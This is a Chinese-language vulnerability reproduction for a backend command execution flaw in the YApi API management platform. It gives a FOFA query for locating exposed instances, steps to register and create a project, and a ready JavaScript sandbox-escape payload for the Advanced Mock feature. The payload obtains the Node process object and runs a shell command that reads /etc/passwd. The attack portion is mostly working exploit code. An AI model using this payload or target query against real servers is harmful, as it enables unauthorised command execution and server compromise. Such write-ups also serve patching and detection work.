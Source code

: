 # YApi 接口管理平台 后台命令执行漏洞

## 漏洞描述

YApi 接口管理平台 后台存在命令执行漏洞，攻击者通过发送特定的请求可执行任意命令获取服务器权限

## 漏洞影响

```
YApi 接口管理平台
```

## FOFA

```
app="YApi"
```

## 漏洞复现

登录页面

![](./images/202202091829002.png)



首先需要注册账户并登录



![](./images/202202091829520.png)



![](./images/202202091829602.png)



添加项目，参数任意



创建后点击 高级Mock 输入如下Payload



```javascript
const sandbox = this; // 获取Context
const ObjectConstructor = this.constructor; // 获取 Object 对象构造函数
const FunctionConstructor = ObjectConstructor.constructor; // 获取 Function 对象构造函数
const myfun = FunctionConstructor('return process'); // 构造一个函数，返回process全局变量
const process = myfun();
mockJson = process.mainModule.require("child_process").execSync("cat /etc/passwd").toString()
```



![](./images/202202091830184.png)



预览处点击项目链接



![](./images/202202091830086.png)